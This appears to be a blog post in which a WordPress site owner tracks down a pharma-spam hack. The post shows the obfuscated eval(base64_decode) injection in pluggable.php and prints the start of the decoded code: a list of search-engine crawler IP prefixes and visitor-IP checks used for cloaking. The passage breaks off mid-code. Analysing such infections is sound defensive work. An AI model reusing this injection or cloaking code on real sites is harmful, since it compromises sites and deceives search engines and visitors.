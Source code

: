 There was also some spammy text inserted into the content further down the page. Not pretty at all.

So, how was this spammy content being generated? I did a few experiments, making a few changes to the page. Any updates I made were not reflected in the hacked version, so this was clearly being served up in its entirety based on an older cached version of the page, rather than inserting spammy links on-the-fly.

I did a few more tests - I wanted to know if this was even coming through WordPress at all, maybe it was some kind of .htaccess hack? I deliberately put syntax errors in core WordPress files, and in the theme files. Breaking WordPress broke the hacked version of the page, but breaking the theme files didn't. So the hacked code was clearly being run quite early in the page lifecycle, but was definitely within my WordPress PHP files somewhere.

I grabbed a copy of all my WordPress files from the server - the wp-admin, wp-content and wp-includes folders. The <a href="http://www.pearsonified.com/2010/04/wordpress-pharma-hack.php">article</a> I linked to earlier mentioned that WordPress hacks typically contain functions like "eval" and "base64_decode", to obfuscate the hack code, so I did quick search through the WordPress files.

Bingo - the top of wp-includes/pluggable.php:
<pre>&lt;?php
eval(base64_decode("ZXJyb3JfcmVwb3J0aW5nKD ...</pre>
I ran the 6KB string through an online base 64 decoder, and here is the code that was being run <em>for every single request to my site</em>:
<pre>error_reporting(0);
$bot_list = array("8.6.48","62.172.199","62.27.59","63.163.102","64.157.137","64.157.138","64.233.173","64.68.80","64.68.81","64.68.82","64.68.83","64.68.84","64.68.85","64.68.86","64.68.87","64.68.88","64.68.89","64.68.90","64.68.91","64.68.92","64.75.36","66.163.170","66.163.174","66.196.101","66.196.65","66.196.67","66.196.72","66.196.73","66.196.74","66.196.77","66.196.78","66.196.80","66.196.81","66.196.90","66.196.91","66.196.92","66.196.93","66.196.97","66.196.99","66.218.65","66.218.70","66.228.164","66.228.165","66.228.166","66.228.173","66.228.182","66.249.64","66.249.65","66.249.66","66.249.67","66.249.68","66.249.69","66.249.70","66.249.71","66.249.72","66.249.73","66.249.78","66.249.79","66.94.230","66.94.232","66.94.233","66.94.238","67.195.115","67.195.34","67.195.37","67.195.44","67.195.45","67.195.50","67.195.51","67.195.52","67.195.53","67.195.54","67.195.58","67.195.98","68.142.195","68.142.203","68.142.211","68.142.212","68.142.230","68.142.231","68.142.240","68.142.246","68.142.249","68.142.250","68.142.251","68.180.216","68.180.250","68.180.251","69.147.79","72.14.199","72.30.101","72.30.102","72.30.103","72.30.104","72.30.107","72.30.110","72.30.111","72.30.124","72.30.128","72.30.129","72.30.131","72.30.132","72.30.133","72.30.134","72.30.135","72.30.142","72.30.161","72.30.177","72.30.179","72.30.213","72.30.214","72.30.215","72.30.216","72.30.221","72.30.226","72.30.252","72.30.54","72.30.56","72.30.60","72.30.61","72.30.65","72.30.78","72.30.79","72.30.81","72.30.87","72.30.9","72.30.97","72.30.98","72.30.99","74.6.11","74.6.12","74.6.13","74.6.131","74.6.16","74.6.17","74.6.18","74.6.19","74.6.20","74.6.21","74.6.22","74.6.23","74.6.24","74.6.240","74.6.25","74.6.26","74.6.27","74.6.28","74.6.29","74.6.30","74.6.31","74.6.65","74.6.66","74.6.67","74.6.68","74.6.69","74.6.7","74.6.70","74.6.71","74.6.72","74.6.73","74.6.74","74.6.75","74.6.76","74.6.79","74.6.8","74.6.85","74.6.86","74.6.87","74.6.9","74.55.27","141.185.209","169.207.238","199.177.18","202.160.178","202.160.179","202.160.180","202.160.181","202.160.183","202.160.185","202.165.96","202.165.98","202.165.99","202.212.5","202.46.19","203.123.188","203.141.52","203.255.234","206.190.43","207.126.239","209.1.12","209.1.13","209.1.32","209.1.38","209.131.40","209.131.41","209.131.48","209.131.49","209.131.50","209.131.51","209.131.60","209.131.62","209.185.108","209.185.122","209.185.141","209.185.143","209.185.253","209.191.123","209.191.64","209.191.65","209.191.82","209.191.83","209.67.206","209.73.176","209.85.238","211.14.8","211.169.241","213.216.143","216.109.121","216.109.126","216.136.233","216.145.58","216.155.198","216.155.200","216.155.202","216.155.204","216.239.193","216.239.33","216.239.37","216.239.39","216.239.41","216.239.45","216.239.46","216.239.51","216.239.53","216.239.57","216.239.59","216.32.237","216.33.229","174.129.130","174.129.66","85.17.19");
$ip = preg_replace("/.(d+)$/", '', $_SERVER["REMOTE_ADDR"]);
$agent = $_SERVER["HTTP_USER_AGENT"];
